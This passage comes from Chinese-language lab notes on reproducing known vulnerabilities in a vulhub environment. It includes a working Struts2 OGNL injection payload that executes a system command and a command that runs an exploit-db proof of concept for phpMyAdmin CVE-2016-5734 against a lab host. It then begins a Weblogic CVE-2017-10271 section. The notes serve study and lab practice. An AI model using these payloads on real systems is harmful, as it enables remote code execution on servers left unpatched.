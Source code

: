 ### Exploit

执行任意代码的EXP：

~~~~
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('pwd').getInputStream())) + '
~~~~

![image-20220601173223701](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220601173223701.png)



# phpMyAdmin漏洞

## phpMyAdmin 4.0.x-- 4.6.2 远程代码执行漏洞（CVE-2016-5734）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。在其查找并替换字符串功能中，将用户输入的信息拼接进`preg_replace`函数第一个参数中。

在PHP5.4.7以前，`preg_replace`的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

参考链接：[CVE-2016-5734 phpmyadmin后台代码执行漏洞复现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7836)

### 漏洞复现

1. 漏洞利用的前提是phpmyadmin在登录的状态下
2. 复现

​		漏洞poc ： exploit-DB

​		使用exploit 上面提供的 poc 进行操作

~~~shell
python3 cve-2016-5734.py -u root --pwd="root" http://192.168.1.146:8080 -c "system('uname -a');
~~~

![image-20220526185830924](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526185830924.png)其中可以使用 -c 指定PHP 代码执行（这里未指定使用代码中默认的system(‘uname -a’)）
-d 指定数据库名
-t 指定用户所创建的表名（这里未指定使用代码中默认的)
结果显示:result的那一行

# Weblogic 

## Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。



### 环境搭建

启动测试环境：
